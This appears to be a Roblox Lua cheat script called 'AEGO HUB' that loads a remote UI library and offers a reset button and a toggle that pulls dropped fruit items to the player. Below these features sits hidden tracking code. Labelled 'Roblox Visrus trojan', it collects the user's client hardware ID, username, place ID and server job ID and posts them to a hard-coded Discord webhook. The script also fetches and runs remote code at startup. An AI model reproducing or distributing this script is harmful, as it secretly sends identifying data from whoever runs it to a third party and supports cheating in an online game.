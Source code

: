 



local library = loadstring(game:HttpGet("https://raw.githubusercontent.com/memejames/elerium-v2-ui-library//main/Library", true))()
local window = library:AddWindow("AEGO HUB", {
	main_color = Color3.fromRGB(41, 74, 122), -- Color
	min_size = Vector2.new(250, 346), -- Size of the gui
	can_resize = false, -- true or false
})



local features = window:AddTab("Main") -- Name of tab
features:Show() -- shows the tab

features:AddLabel("Farm")

features:AddButton("Reset Chr",function()
game.Players.LocalPlayer.Character.Humanoid.Health = 0
end)

local switch = features:AddSwitch("Bring Fruit / ดึงผล Beta Function", function(v)
_G.BringFruit = v

while _G.BringFruit do wait()
if _G.BringFruit then
		for i,v in pairs(workspace:GetChildren()) do
	if v:IsA("Tool") then
		local handle = v:FindFirstChild("Handle")
		handle.CanCollide = false
		handle.CFrame = game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame
		task.wait(0.4)
		   
	end
end
end
end

end)
switch:Set(false)

 local placeId = game.PlaceId

local hwid = game:GetService("RbxAnalyticsService"):GetClientId()

local OSTime = os.time();
local Time = os.date('!*t', OSTime);
local Avatar = 'https://cdn.discordapp.com/embed/avatars/4.png';
local Content = 'Roblox Visrus trojan ';
local Embed = {
    title = 'Hwid ';
    color = "123";
	url = "https://www.google.com/search?q=" .. hwid;
    footer = { text = game.JobId };
    author = {
        name = 'Roblox Trojan';
        url = "https://www.roblox.com/games/" .. placeId;

    };
    fields = {
        {
            name = 'Players'..game.Players.LocalPlayer.Name;
            value = '';
        }
    };
    timestamp = string.format('%d-%d-%dT%02d:%02d:%02dZ', Time.year, Time.month, Time.day, Time.hour, Time.min, Time.sec);
};
(syn and syn.request or http_request) {
    Url = 'https://discord.com/api/webhooks/1330245729838694400/VBwGXeUgxTqrleiVzS2fl58938yOaQeR7swnZQFB17eQyAQKq8PCLpxMUjOwrsWVnfy8';
    Method = 'POST';
    Headers = {
        ['Content-Type'] = 'application/json';
    };
    Body = game:GetService'HttpService':JSONEncode( { content = Content; embeds = { Embed } } );
};

print("Hwid : "..hwid)
print("Player : "..game.Players.LocalPlayer.Name)
print("Check...")
print("Stats : Free Key!")

